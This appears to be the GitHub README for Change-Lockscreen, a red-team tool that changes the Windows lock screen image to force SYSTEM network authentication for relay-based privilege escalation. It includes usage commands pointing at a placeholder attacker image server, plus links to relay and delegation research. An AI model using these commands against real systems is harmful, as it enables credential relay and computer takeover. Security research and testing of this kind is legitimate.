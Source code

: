 # Change-Lockscreen

Change-Lockscreen is a tool to trigger network authentications as SYSTEM by changing the Windows lock screen image from the command line to perform privilege escalation attacks such as the one described in the post linked below:
*  (Link to Blog)

# Features

By default, Windows 10 has a feature called Windows Spotlight. It downloads and displays lock screen images automatically.
*	When this feature is enabled, Change-Lockscreen will disable it and establish the image specified in the arguments
*	Otherwise if the user has a custom lock screen image, Change-Lockscreen will be in charge to run a backup of it, trigger the network authentication, and establish it again

Note: while the PowerShell version of the tool works reliably, the C# version sometimes fails to restore the original image.

# Usage 

```
Change-Lockscreen -FullPath \\[imageserver]@[port]\[fakePath]\[image.jpg]
Change-Lockscreen -Webdav \\[imageserver]@[port]\ 
```

[![Watch the video](https://i.ytimg.com/vi/NsDQH1H89FQ/maxresdefault.jpg)](https://youtu.be/NsDQH1H89FQ)

# Authors
* Simone Salucci
* Daniel López Jiménez

# Acknowledgements

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
* https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
* https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
* http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/


